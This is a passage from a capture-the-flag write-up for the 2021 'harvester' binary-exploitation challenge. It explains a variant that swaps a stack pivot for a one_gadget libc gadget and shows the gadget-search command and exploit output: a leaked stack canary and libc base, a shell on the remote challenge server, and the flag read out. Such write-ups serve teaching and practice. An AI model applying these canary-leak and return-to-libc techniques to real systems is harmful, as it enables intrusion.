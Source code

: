 This is version is identical to the stack-pivot version except that a stack leak/pivot is not required and the 8 byte payload is not `leave`, instead it is the first of three gadgets from one_gadget:

```
# one_gadget libc.so.6 | grep ^0x | awk '{print $1}' | xargs
0x4f3d5 0x4f432 0x10a41c
```


Output:

```
[*] '/pwd/datajerk/cyberapocalypsectf2021/harvester/harvester_no_usleep'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 46.101.22.121 on port 31051: Done
[*] '/pwd/datajerk/cyberapocalypsectf2021/harvester/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] canary: 0xde40acb662fc7500
[*] __libc_start_main: 0x7f06b89f1b10
[*] libc.address: 0x7f06b89d0000
[*] Switching to interactive mode

This did not work as planned..
$ cat flag.txt
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```
